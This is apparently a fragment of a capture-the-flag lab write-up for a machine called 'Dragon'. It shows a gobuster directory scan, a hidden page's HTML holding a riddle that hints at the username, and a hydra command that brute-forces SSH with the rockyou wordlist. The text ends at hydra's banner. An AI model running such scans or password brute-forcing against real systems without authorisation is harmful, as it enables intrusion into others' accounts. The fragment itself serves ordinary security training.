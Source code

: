└─$ gobuster dir -u http://10.0.250.10 -x php,html,css,js,txt,pdf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 403,404
===============================================================

===============================================================
/index.html           (Status: 200) [Size: 981]
/secret               (Status: 301) [Size: 311] [--> http://10.0.250.10/secret/]




```bash
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8" />
    <title>Secreto de Dragon Machine</title>
    <style>
        body {
            background-color: #222;
            color: #eee;
            font-family: 'Courier New', Courier, monospace;
            padding: 2em;
            text-align: center;
        }
        .riddle {
            background-color: #333;
            padding: 2em;
            border-radius: 12px;
            margin: 0 auto;
            max-width: 600px;
            box-shadow: 0 0 10px #f38ba8;
        }
    </style>
</head>
<body>
    <div class="riddle">
        <h1>Para Dragon:</h1>
        <p>“En la sombra de la cueva, un guardián vigila sin ver,<br>
        Su nombre es la clave, su fuerza, un misterio por resolver.<br>
        Intenta sin pausa, las llaves del dragón,<br>
        Y hallarás el secreto que abre la prisión.”</p>
    </div>
</body>
</html>
```


==============================================================================================================================

┌──(kali㉿kali)-[~/Documents/dragon]
└─$ hydra -l dragon -P /usr/share/wordlists/rockyou.txt ssh://10.0.250.10                                                           
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
